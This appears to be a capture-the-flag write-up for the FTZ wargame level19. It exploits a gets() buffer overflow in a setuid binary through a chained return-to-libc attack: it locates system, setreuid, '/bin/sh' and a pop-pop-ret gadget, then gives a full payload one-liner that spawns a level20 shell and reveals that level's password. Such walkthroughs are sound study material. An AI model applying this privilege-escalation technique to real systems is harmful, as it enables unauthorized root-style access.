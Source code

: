 # Level19

## This level's goal
- Chaining return to lib

***

```
[level19@ftz level19]$ ls -l
-rwsr-x---    1 level20  level19     13615 Mar  8  2003 attackme
-rw-r-----    1 root     level19        65 Mar  8  2003 hint

[level19@ftz level19]$ cat hint

main()
{ 
  char buf[20];
  gets(buf);
  printf("%s\n",buf);
}
```

```
[level19@ftz level19]$ gdb -q attackme
(gdb) disass main
0x08048443 <main+3>:    sub    esp,0x28
```

0x28 means 40bytes, so then 40bytes + SFO(4bytes) + RET(4bytes)

```
[level19@ftz level19]$ cp attackme tmp/
[level19@ftz level19]$ gdb -q tmp/attackme
(gdb) b *main
(gdb) run
Starting program: /home/level19/tmp/attackme

(gdb) p system
$1 = {<text variable, no debug info>} 0x4203f2c0 <system>

(gdb) p setreuid
$2 = {<text variable, no debug info>} 0x420d7920 <setreuid>
```

As above, I could get the system's and setreuid's address.

```
[level19@ftz tmp]$ cat getsh.c
#include <stdio.h>
int main()
{
        long shell = 0x4203f2c0;
        while ( memcmp((void*) shell, "/bin/sh", 8) )
        {
                shell++;
        }
        printf("0x%x\n", shell);
        return 0;
}
[level19@ftz tmp]$ gcc getsh.c -o getsh
[level19@ftz tmp]$ ./getsh
0x42127ea4
```

Now, I got /bin/sh's adress in system() function.

And then I need to get setreuid's argvs.

```
[level19@ftz tmp]$ cat /etc/passwd | grep level20
level20:x:3100:3100::/home/level20:/bin/bash
```

Level20's uid is 3100 means 0x0000C1C(HEX).

```
[level19@ftz tmp]$ objdump -d attackme | egrep 'pop|ret'
 80482d3:       c3                      ret
 8048342:       5e                      pop    %esi
 804836e:       5b                      pop    %ebx
 8048385:       c3                      ret
 80483eb:       5d                      pop    %ebp
 80483ec:       c3                      ret
 80483f8:       5d                      pop    %ebp
 80483f9:       c3                      ret
 8048426:       5d                      pop    %ebp
 8048427:       c3                      ret
 8048438:       5d                      pop    %ebp
 8048439:       c3                      ret
 804846a:       c3                      ret
 804849c:       58                      pop    %eax
 804849d:       5b                      pop    %ebx
 804849e:       5d                      pop    %ebp
 804849f:       c3                      ret
 80484a8:       5d                      pop    %ebp
 80484a9:       c3                      ret
 80484ba:       5b                      pop    %ebx
 80484cd:       c3                      ret
```

For the chaining method, PPR's address(pop-pop-ret) is 804849d.

As a result, the attack code will be 44 bytes dummy stirngs + setreuid address + PPR address + ruid + euid + system address + dummy(4bytes) + /bin/sh address.
setreuid address = 0x420d7920   
PPR address = 0x804849d   
ruid and euid = 0x0000C1C
system address = 0x4203f2c0
/bin/sh address = 0x42127ea4

```
[level19@ftz level19]$ (python -c 'print "A"*44+"\x20\x79\x0d\x42"+"\x9d\x84\x04\x08"+"\x1c\x0c\x00\x00"+"\x1c\x0c\x00\x00"+"\xc0\xf2\x03\x42"+"A"*4+"\xa4\x7e\x12\x42"'; cat) | ./attackme

id
uid=3100(level20) gid=3099(level19) groups=3099(level19)

my-pass
Level20 Password is "we are just regular guys".
```
